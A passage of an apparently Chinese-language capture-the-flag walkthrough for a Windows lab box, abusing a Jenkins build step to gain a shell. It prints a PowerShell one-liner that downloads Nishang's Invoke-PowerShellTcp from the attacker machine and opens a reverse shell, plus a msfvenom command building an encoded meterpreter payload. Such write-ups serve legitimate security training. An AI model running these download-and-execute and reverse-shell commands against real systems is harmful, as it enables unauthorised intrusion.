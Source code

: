 首先，把需要用的脚本下载到攻击机https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1；

然后，kali开启web server，为了目标机器能访问到下载脚本：`python -m http.server 8081`；

回到jenkins，执行命令的地方在：

![image-20240307160101134](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071601188.png)

![image-20240307160120348](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071601397.png)

![image-20240307160444462](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071604511.png)

需要执行的命令：

```shell
powershell iex (New-Object Net.WebClient).DownloadString(‘http://10.2.124.22:8081/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.124.22 -Port 4444
```

作用就是从kali下载文件，然后去执行命令，反弹shell到kali的4444端口。

kali本地开启监听，回到上层，点击build now：

![image-20240307160553950](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071605992.png)

kali的监听，成功拿到shell：

![image-20240307163746128](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071637189.png)

user.txt在bruce的桌面上。

有报错的话可以在执行的build历史中查看详细信息：

![image-20240307160711688](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071607735.png)

## Switching Shells

这一步其实在重复上面的步骤，我们可以不用powershell脚本，而是直接用msfvenom生成一个payload，然后把反弹shell引到msf上去。同理，使用cs也可以实现一样的效果。

需要执行的命令：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.124.22 LPORT=4443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

修改一下project里要执行的命令：
